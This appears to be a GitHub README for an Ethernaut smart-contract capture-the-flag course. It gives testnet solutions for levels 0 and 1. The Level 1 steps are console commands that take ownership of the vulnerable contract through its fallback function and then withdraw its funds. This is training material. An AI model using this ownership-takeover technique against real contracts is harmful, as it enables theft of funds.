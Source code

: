 # Ethernaut Capture the Flag (CTF)
The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.

# Assignments

## Submission
Please create a pull request with:
- The instance address of the contract you submitted
- Your wallet address
- The testnet you are using

## Ethernaut Level 0
 https://ethernaut.openzeppelin.com
 
##Solution
Try to understand the contract object, its functions and call the appropriate functions based on the contract ABI
Network: Polygon Mumbai
Instance: 0xC19F79Df2Fac6e2B44E7C13B0e2802EDA28b1Cf5
Tx: https://mumbai.polygonscan.com/tx/0xea9c8a26883de9737fa5d6c7974c70b890b793cfab02c6908f07ae220d3aebaa
 

## Ethernaut Level 1
https://ethernaut.openzeppelin.com

## Solution
Network: Polygon Mumbai
Instance: 0xda57daF1c08A0535E6ef5D60105ECeC369a4580A
Tx: https://mumbai.polygonscan.com/tx/0xe30925346ea5bde1a0bd5c1ff769dc26fb07a591194b9fc8c00de6a3339f5821
Steps: 

> await contract.owner()
0x2a24869323C0B13Dff24E196Ba072dC790D52479

> let bal = await contract.contributions('0x2a24869323C0B13Dff24E196Ba072dC790D52479')
> bal.toString()
'1000000000000000000000'

> await contract.contribute({value: toWei("0.00000000001","ether")})

> await contract.sendTransaction({value: toWei("0.00001","ether")})

> await contract.owner()
'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> player
'0xdbaE4296E3Dd9d3f31a71BA7afa1735D0BaF92F6'

> await contract.withdraw()

